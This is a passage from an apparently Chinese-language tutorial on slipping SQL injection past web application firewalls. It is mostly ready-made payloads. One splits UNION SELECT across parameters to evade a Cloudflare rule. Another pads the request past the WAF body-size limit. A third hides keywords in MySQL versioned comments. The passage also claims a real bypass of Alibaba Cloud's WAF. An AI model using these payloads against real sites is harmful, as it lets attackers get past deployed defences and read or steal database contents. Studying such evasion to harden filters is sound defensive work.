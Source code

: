 ```
Cloudflare规则1092：检测到&#34;UNION SELECT&#34; - 阻断
实际处理：PHP后端解析为`q=1,/**/UN/**/ION/**/SEL/**/ECT,flag,FROM,secret_table`
```

  
**技术本质**  
：  
- • 利用中间件参数合并特性（PHP/Apache为
```
,
```

  
，JSP/Tomcat为空格）  
  
- • 碎片长度需超过WAF词法分析窗口（通常128字节）  
  
### 三、超长语句绕过：缓冲区溢出  
  
**Payload结构**  
：  

```
/* 前段填充 */ 
'+(SELECT 0xAAAAAAAA...（重复10万次）+')+'

/* 核心注入点 */
UNION/**/SELECT/**/1,@@version,3
```

  
**绕过条件**  
：  
1. 1. WAF配置
```
SecRequestBodyLimit 131072
```

  
（默认128KB）  
  
1. 2. 后端未限制
```
max_allowed_packet
```

  
  
**赛题验证**  
：  
- • 2021年Tianfu Cup：通过2MB超长payload绕过阿里云WAF  
  
### 四、注释符变形：非常规注释  
  
**经典组合**  
：  

```
1' /*!50400UNION*/ /*!50400SELECT*/ 1,2,database()-- 
```

